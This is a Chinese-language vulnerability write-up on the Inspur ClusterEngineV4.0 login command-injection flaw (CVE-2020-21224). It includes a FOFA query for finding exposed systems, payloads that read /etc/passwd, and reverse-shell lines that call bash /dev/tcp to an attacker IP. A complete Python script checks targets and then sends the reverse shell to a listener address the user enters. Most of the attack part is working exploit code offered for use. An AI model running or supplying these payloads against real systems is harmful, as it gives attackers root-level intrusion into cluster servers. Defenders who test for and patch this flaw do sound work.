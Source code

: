 # 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/lc-1.png)

由于登录页面没有发现验证码，进行账号爆破

当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

![](http://wikioss.peiqi.tech/vuln/lc-2.png)

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有

一个 ' ，系统将抛出异常。

![](http://wikioss.peiqi.tech/vuln/lc-3.png)

![](http://wikioss.peiqi.tech/vuln/lc-4.png)

进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常

![](http://wikioss.peiqi.tech/vuln/lc-5.png)

定尝试发送 ' ' 来查看响应包。

![](http://wikioss.peiqi.tech/vuln/lc-6.png)

我注意到 grep 命令错误，服务端的代码可能是这样

```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```

尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测

![](http://wikioss.peiqi.tech/vuln/lc-7.png)

![](http://wikioss.peiqi.tech/vuln/lc-8.png)

尝试读取  **/etc/passswd**

![](http://wikioss.peiqi.tech/vuln/lc-9.png)

尝试列目录

![](http://wikioss.peiqi.tech/vuln/lc-10.png)

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload

![](http://wikioss.peiqi.tech/vuln/lc-11.png)

![](http://wikioss.peiqi.tech/vuln/lc-12.png)

反弹 shell

```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

![](http://wikioss.peiqi.tech/vuln/lc-13.png)

上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法

```
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=peiqi`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

![](http://wikioss.peiqi.tech/vuln/lc-15.png)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=peiqi`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/lc-14.png)

## Goby & POC

> [!ONTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> ClusterEngineV4.0_RCE

![](http://wikioss.peiqi.tech/vuln/lc-16.png)



## 参考文章

https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

